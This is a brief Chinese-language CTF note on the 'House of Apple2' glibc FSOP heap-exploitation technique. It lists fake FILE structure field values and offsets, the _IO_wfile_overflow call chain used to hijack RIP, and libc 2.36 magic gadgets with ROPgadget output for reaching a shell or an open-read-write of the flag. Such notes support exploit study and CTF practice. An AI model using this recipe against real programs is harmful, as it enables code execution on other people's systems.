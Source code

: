 house of apple2
---------------

**fp的vtable覆盖为\_IO\_wxxx\_jumps（加减偏移）,执行\_IO\_wfile\_overflow，绕过里面一个个函数调用链，最后根据偏移执行\_wide\_vtable里面的函数，利用magic gadget执行orw拿到flag**

**在打FSOP的时候打apple2最好**

**\_IO\_wfile\_overflow**

对fp的设置如下：

- \_flags设置为~(2 | 0x8 | 0x800)，如果不需要控制rdi，设置为0即可；如果需要获得shell，可设置为 sh;，注意前面有两个空格
- vtable设置为\_IO\_wfile\_jumps（加减偏移），使其能成功调用\_IO\_wfile\_overflow即可
- \_lock = writable address,\_mode = 0
- \_wide\_data设置为可控堆地址A，即满足\*(fp + 0xa0) = A
- \_wide\_data-&gt;\_IO\_write\_base设置为0，即满足\*(A + 0x18) = 0
- \_wide\_data-&gt;\_IO\_buf\_base设置为0，即满足\*(A + 0x30) = 0
- \_wide\_data-&gt;\_wide\_vtable设置为可控堆地址B，即满足\*(A + 0xe0) = B
- \_wide\_data-&gt;\_wide\_vtable-&gt;doallocate设置为地址C用于劫持RIP，即满足\*(B + 0x68) = C

函数的调用链如下:

```text
_IO_wfile_overflow
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

magic\_gadgets
==============

libc2.36
--------

- 此时的rax正好指向FAKE\_IO头部

```text
.text:0000000000160E56                 mov     rdx, [rax+38h]
.text:0000000000160E5A                 mov     rdi, rax
.text:0000000000160E5D                 call    qword ptr [rdx+20h]
```

- 也就是svcudp\_reply+0x1a

```text
.text:00000000001630AA                 mov     rbp, [rdi+48h]
.text:00000000001630AE                 mov     rax, [rbp+18h]
.text:00000000001630B2                 lea     r13, [rbp+10h]
.text:00000000001630B6                 mov     dword ptr [rbp+10h], 0
.text:00000000001630BD                 mov     rdi, r13
.text:00000000001630C0                 call    qword ptr [rax+28h]

ROPgadget --binary libc.so.6  | grep 'mov rdi, r13'
0x00000000001587b3 : mov rdi, r13 ; call qword ptr [rax + 0x10]
0x000000000008975f : mov rdi, r13 ; call qword ptr [rax + 0x18]
0x000000000015760c : mov rdi, r13 ; call qword ptr [rax + 0x20]
0x00000000001630bd : mov rdi, r13 ; call qword ptr [rax + 0x28]
```
